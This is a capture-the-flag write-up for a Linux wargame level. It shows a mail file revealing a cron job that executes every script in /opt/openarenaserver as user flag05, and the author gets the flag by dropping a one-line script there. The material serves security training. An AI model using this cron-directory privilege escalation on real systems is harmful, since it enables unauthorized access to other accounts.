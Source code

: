 # Level 05

## Initial Context

- Empty home directory.
- `You have new mail.`

## Solving the Challenge

When we log as `level05`, a message saying `You have new mail.` is displayed.

And it seems that we do:

```bash
$ ls -l /var/mail/
total 4
-rw-r--r--+ 1 root mail 58 Apr 20 21:31 level05
```

The file content is:

```bash
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

It is a CRON that execute `/usr/sbin/openarenaserver` as `flag05` every 2 minutes.

```
 .--------------------- every 2 minutes
 |  .------------------ every hours
 |  | .---------------- every days
 |  | | .-------------- every month
 |  | | | .------------ every weekday
 |  | | | |    .------- execute a command
 |  | | | |    |        execute it as flag05 --------.
 |  | | | |    |                                     |
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This file contains:

```bash
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

It will loop over all file inside the `/opt/openarenaserver/*` and remove then after executing them.

So by putting a custom script into it, it should be executed.

```bash
$ echo 'getflag > /tmp/level05_flag' > /opt/openarenaserver/getflag.sh
$ sleep 2m
$ cat /tmp/level05_flag
Check flag.Here is your token : ....
```

Success!